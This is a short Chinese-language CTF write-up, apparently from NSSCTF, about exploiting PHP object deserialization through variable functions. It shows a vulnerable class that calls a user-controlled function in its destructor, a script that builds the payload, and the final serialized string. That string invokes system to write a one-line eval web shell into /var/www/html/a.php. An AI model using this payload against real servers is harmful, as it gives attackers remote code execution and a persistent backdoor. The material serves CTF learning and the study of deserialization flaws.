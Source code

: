如果一个**变量名后有圆括号**，PHP 将寻找**与变量的值同名的函数**，并且尝试执行它。



在这个示例中，$a（也就是 lyh 的 lt 属性）为要调用的函数名称，lyh 的 lly 属性为传递给函数的参数。

```php
<?php
 
class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;
     
     function  __destruct()
     {
        $a = $this->lt;

        $a($this->lly);
     }
    
    
}
unserialize($_POST['nss']);
highlight_file(__FILE__);
 
 
?> 
```



调用system函数执行系统命令，使用echo命令将一句话木马写入 /var/www/html/a.php 文件中。

```php
<?php

class lyh {

	public $lt = "system";
	public $lly = "echo '<?php @eval(\$_POST[\"bash\"]); ?>' > /var/www/html/a.php";

}

echo serialize(new lyh);

?>
```



反序列化字符串

```
O:3:"lyh":2:{s:2:"lt";s:6:"system";s:3:"lly";s:60:"echo '<?php @eval($_POST["bash"]); ?>' > /var/www/html/a.php";}
```
